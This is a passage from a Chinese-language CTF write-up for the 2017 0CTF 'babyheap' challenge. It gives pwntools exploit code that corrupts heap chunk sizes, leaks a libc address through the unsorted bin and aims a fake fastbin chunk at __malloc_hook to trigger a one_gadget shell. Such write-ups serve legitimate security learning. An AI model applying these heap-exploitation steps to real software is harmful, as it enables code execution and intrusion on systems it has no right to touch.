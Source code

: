 那么，当我们再次申请两个时，第二个申请到的就是idx 4处的chunk。为了能够申请成功，我们需要确保 idx4 的size 与当前 fastbin 的大小一致，所以，我们得修改它的大小。申请成功后，idx2会指向idx4。

```python
    # if we want to allocate at idx4, we must set it's size as 0x21
    payload = 0x10 * 'a' + p64(0) + p64(0x21)
    fill(3, len(payload), payload)
    allocate(0x10)  # idx 1
    allocate(0x10)  # idx 2, which point to idx4's location
```

之后，如果我们想要将 idx 4 放到 unsorted bin 中的话，为了防止其与top chunk 合并，我们需要再次申请一个chunk。此后再释放 idx4 就会进入 unsorted bin中去了。此时由于 idx2 也指向这个地址，所以我们直接展示他的内容就可以得到unsorted bin的地址了。

```python
    # if want to free idx4 to unsorted bin, we must fix its size
    payload = 0x10 * 'a' + p64(0) + p64(0x91)
    fill(3, len(payload), payload)
    # allocate a chunk in order when free idx4, idx 4 not consolidate with top chunk
    allocate(0x80)  # idx 5
    free(4)
    # as idx 2 point to idx4, just show this
    dump(2)
    p.recvuntil('Content: \n')
    unsortedbin_addr = u64(p.recv(8))
    main_arena = unsortedbin_addr - offset_unsortedbin_main_arena
    log.success('main arena addr: ' + hex(main_arena))
    main_arena_offset = 0x3c4b20
    libc_base = main_arena - main_arena_offset
    log.success('libc base addr: ' + hex(libc_base))
```

### 分配chunk到malloc_hook附近

**malloc_hook 是一个 libc 上的函数指针，调用 malloc 时如果该指针不为空则执行它指向的函数，可以通过malloc_hook 来 getshell**

由于 malloc hook 附近的 chunk 大小为 0x7f，所以数据区域为0x60。这里我们再次申请的时候，对应 fastbin 链表中没有相应大小chunk，所以根据堆分配器规则，它会依次处理unsorted bin中的chunk，将其放入到对应的bin中，之后会再次尝试分配 chunk，因为之前释放的 chunk 比当前申请的 chunk 大，所以可以从其前面分割出来一块。所以 idx2 仍然指向该位置，那么我们可以使用类似的办法先释放申请到的chunk，然后再次修改 fd 指针为 fake chunk 即可。此后我们修改 malloc_hook 处的指针即可得到触发 onegadget。

[one_gadget](https://github.com/david942j/one_gadget) 插件可以直接找到` execve('/bin/sh', NULL, NULL)` 

![img-1](2017-0ctf-babyheap/img-1.png)
